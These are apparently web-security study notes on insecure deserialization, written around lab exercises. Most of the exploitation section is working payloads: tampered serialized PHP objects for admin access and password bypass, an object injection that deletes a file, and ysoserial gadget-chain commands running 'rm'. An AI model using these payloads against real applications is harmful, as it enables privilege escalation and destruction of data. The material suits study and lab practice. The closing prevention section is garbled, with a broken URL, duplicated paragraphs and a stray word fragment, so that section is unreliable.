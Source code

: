 # Insecure deserialization

serialization pickle.dumps(), deserialization pickle.loads(). Example: Python Pickle. Can cause Object Injection, DoS, RCE...

**Serialization** is the process of converting complex data structures, such as objects, into a sequential stream of bytes. Serializing data makes it much simpler to:

* Write complex data to inter-process memory, a file, or a database
* Send complex data, for example, over a network, between different components of an application, or in an API call

**Deserialization** is the process of restoring this byte stream to a fully functional replica of the original object.

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

To prevent a field from being serialized, it must be explicitly marked as "transient" in the class declaration.

Be aware that when working with different programming languages, serialization may be referred to as marshalling (Ruby) or pickling (Python).

Insecure deserialization is when user-controllable data is deserialized by a website. This potentially enables an attacker to manipulate serialized objects in order to pass harmful data into the application code.

Insecure deserialization typically arises because there is a general lack of understanding of how dangerous deserializing user-controllable data can be. Ideally, user input should never be deserialized at all.

Deserialization-based attacks are also made possible due to the number of dependencies that exist in modern websites.

Even in cases where remote code execution is not possible, insecure deserialization can lead to privilege escalation, arbitrary file access, and denial-of-service attacks.

## Exploiting insecure deserialization vulnerabilities

{% code overflow="wrap" fullWidth="true" %}
```sh
############# HOW TO IDENTIFY
### PHP serialization format
# Object
$user->name = "carlos";
$user->isLoggedIn = true;
# Serialized
O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}
#This can be interpreted as follows:
    O:4:"User" - An object with the 4-character class name "User"
    2 - the object has 2 attributes
    s:4:"name" - The key of the first attribute is the 4-character string "name"
    s:6:"carlos" - The value of the first attribute is the 6-character string "carlos"
    s:10:"isLoggedIn" - The key of the second attribute is the 10-character string "isLoggedIn"
    b:1 - The value of the second attribute is the boolean value true
Methods: serialize() and unserialize(). If you have source code access, look for unserialize() anywhere in the code and investigating further. 
### Java serialization format
Serialized Java objects always begin with the same bytes, which are encoded as ac ed in hexadecimal and rO0 in Base64. 
Any class that implements the interface java.io.Serializable can be serialized and deserialized. 
If source code access, look for readObject() method, which is used to read and deserialize data from an InputStream. 

############ MANIPULATING SERIALIZED OBJECTS
### Modifying object attributes
O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}
isAdmin attribute is interesting. We could change the boolean value to 1 (true), re-encode the object, and overwrite their current cookie with this modified value. 
# let's say the website uses this cookie to check whether the current user has access to certain administrative functionality: 
$user = unserialize($_COOKIE);
if ($user->isAdmin === true) {
// allow access to admin interface
}
Check session cookie, decode it, change value, re-encode and overwrite cookie
### Modifying data types
# PHP-based logic is particularly vulnerable due to loose comparison ==
5 == "5 of something" is in practice treated as 5 == 5 /// comparison int == str, PHP will attempt int(str)
# on PHP <= 7.x the comparison 0 == "Example string" evaluates to true, because PHP treats entire string as integer 0
# Case where == comparison operator is used in conjunction with user-controllable data from a deserialized object. 
$login = unserialize($_COOKIE)
if ($login['password'] == $password) {
// log in successfully
}
# We edit password to int 0. As long as stored password does not start with a number, the condition is always true
# NOTE: this is only possible because deserialization preserves the data type. 
# If the code fetched the password from the request directly, the 0 would be converted to a string and condition -> false
# NOTE 2: when modifying data types in any serialized object format, update type and lenght indicators on serialized data
# Example of the vuln with loose comparison on access_token attribute
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"a0p66wcocj1bhcq4pdd9niov5bginrza";}
# Exploitation to become administrator
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}

############# USING APPLICATION FUNCTIONALITY
# Example: "Delete user" feature, user profile picture is also deleted due to $user->image_location attribute. 
# If this $user was created from a serialized object, an attacker could change image_location and delete arbitrary files. 
POST request to /my-account/delete
Notice that the serialized object has an avatar_link attribute, which contains the file path to your avatar
Edit the serialized data so that the avatar_link points to /home/carlos/morale.txt
s:11:"avatar_link";s:23:"/home/carlos/morale.txt"

############# MAGIC METHODS
Magic methods are a special subset of methods invoked automatically whenever a particular event or scenario occurs.
# PHP example: __construct(), invoked whenever an object of the class is instantiated, similar to Python's __init__
# PHP example 2: unserialize() method looks for and invokes an object's __wakeup() magic method. 
# Java example: ObjectInputStream.readObject() method, which is used to read data from the initial byte stream
# However, Serializable classes can also declare their own readObject() method as follows:
private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException
{
    // implementation
}

############### INJECTING ARBITRARY OBJECTS
If we have access to source code, we can look for classes containing deserialization magic methods, then check
whether any of them perform dangerous operations on controllable data. The attacker can then pass in
 a serialized object of this class to use its magic method for an exploit. 
# Hint: You can sometimes read source code by appending a tilde (~) to a filename to retrieve an editor-generated backup file
# Example: source code has CustomTemplate class which contains the __destruct() magic method. 
function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
# __destruct() is invoked autom. when CustomTemplate object is deserialized; if file exists, unlink() function deletes it
In Burp Decoder, use the correct syntax for serialized PHP data to create a CustomTemplate object with the lock_file_path 
attribute set to /home/carlos/morale.txt. Make sure to use the correct data type labels and length indicators.
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}

############### GADGET CHAINS
A "gadget" is a snippet of code that exists in the application that can help an attacker to achieve a particular goal.
By chaining multiple gadgets together in this way, an attacker can potentially pass their input into a dangerous
 "sink gadget", where it can cause maximum damage. 
### Working with pre-built gadget chains
# ysoserial
One such tool for Java deserialization is "ysoserial". You choose gadget chains from a library you think the app is using,
then pass in a command that you want to execute. It then creates a serialized object based on the selected chain.
java -jar ysoserial-all.jar \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   [payload] '[command]'
Gadget chains to help you quickly detect insecure deserialization on virtually any server: 
- The URLDNS chain triggers a DNS lookup for a supplied URL. You can use it with Burp Collaborator.
- JRMPClient causes the server to try establishing a TCP connection to the supplied IP address. 
# To exploit vuln web using a serialization-based session mechanism and loads the Apache Commons Collections library
java -jar ysoserial-all.jar \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   CommonsCollections4 'rm /home/carlos/morale.txt' | base64
### PHP Generic Gadget Chains
https://github.com/ambionics/phpggc
```
{% endcode %}

## How to prevent insecure deserialization vulnerabilities

You could implement a digital signature to check the integrity of the data. However, remember that any checks must take place before beginning the deserialization process.\
If possible, you should avoid using generic deserialization features altogether.\
https://portswigger.net/web-security/dTo prevent a field from being serialized, it must be explicitly marked as "transient" in the class declaration.\
Be aware that when working with different programming languages, serialization may be referred to as marshalling (Ruby) or pickling (Python).\
Insecure deserialization is when user-controllable data is deserialized by a website. This potentially enables an attacker to manipulate serialized objects in order to pass harmful data into the application code.\
Insecure deserialization typically arises because there is a general lack of understanding of how dangerous deserializing user-controllable data can be. Ideally, user input should never be deserialized at all.\
Deserialization-based attacks are also made possible due to the number of dependencies that exist in modern websites.\
Even in cases where remote code execution is not possible, insecure deserialization can lead to privilege escalation, arbitrary file access, and denial-of-service attacks. eserialization
